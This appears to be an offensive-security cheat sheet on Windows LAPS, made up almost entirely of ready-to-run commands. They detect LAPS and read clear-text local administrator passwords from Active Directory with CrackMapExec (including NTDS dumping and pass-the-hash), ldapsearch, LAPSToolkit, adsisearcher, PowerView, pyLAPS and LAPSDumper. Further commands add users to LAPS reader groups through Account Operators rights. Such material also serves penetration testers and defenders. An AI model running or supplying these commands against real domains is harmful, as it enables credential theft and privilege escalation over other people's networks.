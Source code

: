 # ENUMERATION

#### dir "C:\Program\LAPS\CSE"

#### Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'

#### reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

### If admpwd.dll exists, then enumeration is successful.

# LAPS PASSWORD EXTRACTION

### The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

#### 1) Get-Command *Admpwd*

#### 2) Find-AdmPwdExtendedRights -Identity *

#### 3) net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### 1) CrackMapExec

 - crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

 - crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' --laps

#### 2) ldapsearch

 - ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

#### 3) LAPSToolkit

 - Get-LAPSComputers

 - Find-LAPSDelegatedGroups

 - Find-AdmPwdExtendedRights

#### 4) adsisearcher (native binary on Windows 8+)

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))"

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE

#### 5) Powerview

 - Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwd

 - Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

 - Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

 - Get-AdmPwdPassword -ComputerName wkstn-2 | fl (Find the principals that have ReadProperty on ms-Mcs-AdmPwd

 - Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd (Read the password)

#### 6) pyLAPS (Linux)

### Read the password of all computers

 - ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip IP_ADDRESS

### Write a random password to a specific computer

 - ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local'

#### 7) LAPSDumper (Linux)

 - python laps.py -u 'user' -p 'password' -d 'domain.local'

 - python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local

# GRANT LAPS ACCESS

### The members of the group "Account Operator" can add and modify all the non admin users and groups. Since LAPS ADM and LAPS READ are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

 - Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain

 - Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain
